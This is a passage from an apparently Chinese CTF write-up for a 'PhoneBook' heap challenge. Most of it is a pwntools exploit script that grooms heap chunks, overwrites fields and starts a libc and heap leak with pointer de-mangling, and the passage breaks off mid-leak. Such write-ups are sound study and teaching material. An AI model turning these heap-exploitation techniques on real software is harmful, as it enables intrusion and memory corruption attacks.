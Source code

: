 综上，我们可以控制的范围覆盖了所有的字段，我们可以写一个函数来进行覆盖，注意覆盖的时候我们需要从后往前写入。

**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *
from SomeofHouse import *

context(os="linux", arch="amd64", terminal=['tmux', 'splitw', '-h', '-F' '{pane_pid}', '-P']) 
# context.log_level = "debug"

proc_path = './PhoneBook'
libc_path = './libc.so.6'

init_proc_with_libc(proc_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=39785, level=REMOTE, proc=proc_path)
# conn_context(args = [USE_PROXY], ld_rpath = ('./ld-2.23.so', libc_path))

elf = ELF(proc_path)
libc = ELF(libc_path, checksec=False)
io = conn()

def add(name, num):
    io.sendlineafter(b'Choice', b'1')
    if len(name) > 15: name = name[:15]
    if len(num) > 11: num = num[:11]
    io.sendafter(b'Name', name)
    io.sendafter(b'Number', num)

def delete(idx):
    io.sendlineafter(b'Choice', b'2')
    io.sendlineafter(b'Index', str(idx).encode())
    
def show():
    io.sendlineafter(b'Choice', b'3')

def edit(idx, name, num):
    io.sendlineafter(b'Choice', b'4')
    io.sendlineafter(b'Index', str(idx).encode())
    if len(name) > 15: name = name[:15]
    if len(num) > 11: num = num[:11]
    io.sendafter(b'Name', name)
    io.sendafter(b'Number', num)

def reveal_ptr(ptr, addr):
    return (addr >> 12) ^ ptr
    
def exp():
    """ ALLOC CHUNKS """
    add(b'asd', b'asd') # 1
    add(b'asd', b'asd') # 2

    for _ in range(28):
        add(p64(0x33), p64(0x33)) # 3 - 30

    add(b'asd', b'asd') # 31 gap
	
    """ LEAK LIBC AND HEAP """
    edit(2, b'a' * 0x8 + b'\x03', b'a' * 0x8 + b'\x10')
    edit(3, b'asd', p64(0x541))
    edit(2, b'asd', b'a' * 0x8 + b'\x30')
```
